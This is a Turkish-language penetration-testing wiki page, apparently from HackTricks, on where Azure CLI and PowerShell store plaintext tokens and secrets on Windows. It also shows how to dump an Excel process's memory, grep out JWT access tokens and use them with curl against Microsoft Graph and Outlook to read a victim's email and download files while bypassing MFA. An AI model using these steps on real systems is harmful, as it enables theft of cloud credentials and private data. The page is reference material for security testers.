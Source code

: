 # Az - Yerel Bulut Kimlik Bilgileri

{{#include ../../../banners/hacktricks-training.md}}

## Yerel Token Depolama ve Güvenlik Hususları

### Azure CLI (Komut Satırı Arayüzü)

Tokenlar ve hassas veriler Azure CLI tarafından yerel olarak depolanır, bu da güvenlik endişeleri doğurur:

1. **Erişim Tokenları**: `C:\Users\<username>\.Azure` konumundaki `accessTokens.json` içinde düz metin olarak saklanır.
2. **Abonelik Bilgileri**: Aynı dizinde bulunan `azureProfile.json`, abonelik detaylarını tutar.
3. **Log Dosyaları**: `.azure` içindeki `ErrorRecords` klasörü, maruz kalmış kimlik bilgileri içeren loglar barındırabilir, örneğin:
- Kimlik bilgileri gömülü olarak yürütülen komutlar.
- Tokenlar kullanılarak erişilen URL'ler, hassas bilgileri açığa çıkarabilir.

### Azure PowerShell

Azure PowerShell de tokenlar ve hassas verileri yerel olarak depolar:

1. **Erişim Tokenları**: `C:\Users\<username>\.Azure` konumundaki `TokenCache.dat`, erişim tokenlarını düz metin olarak saklar.
2. **Hizmet Prensibi Gizli Anahtarları**: Bunlar `AzureRmContext.json` içinde şifrelenmemiş olarak saklanır.
3. **Token Kaydetme Özelliği**: Kullanıcılar, yetkisiz erişimi önlemek için dikkatli bir şekilde kullanılmalıdır.

### Onları Bulmak için Otomatik Araçlar

- [**Winpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)
- [**Get-AzurePasswords.ps1**](https://github.com/NetSPI/MicroBurst/blob/master/AzureRM/Get-AzurePasswords.ps1)

## Bellekteki Tokenlar

[**bu videoda**](https://www.youtube.com/watch?v=OHKZkXC4Duw) açıklandığı gibi, bulut ile senkronize olan bazı Microsoft yazılımları (Excel, Teams...) **erişim tokenlarını bellek içinde düz metin olarak saklayabilir**. Bu nedenle, sürecin **belleğini dökerek** ve **JWT tokenları için grep yaparak** kurbanın buluttaki çeşitli kaynaklarına MFA'yı atlayarak erişim sağlayabilirsiniz.

Adımlar:

1. EntraID kullanıcısıyla senkronize olan excel süreçlerini favori aracınızla dökün.
2. `string excel.dmp | grep 'eyJ0'` komutunu çalıştırın ve çıktıda birkaç token bulun.
3. Sizi en çok ilgilendiren tokenları bulun ve bunlar üzerinde araçlar çalıştırın:
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
**Bu tür erişim jetonlarının diğer süreçlerin içinde de bulunabileceğini unutmayın.**

{{#include ../../../banners/hacktricks-training.md}}
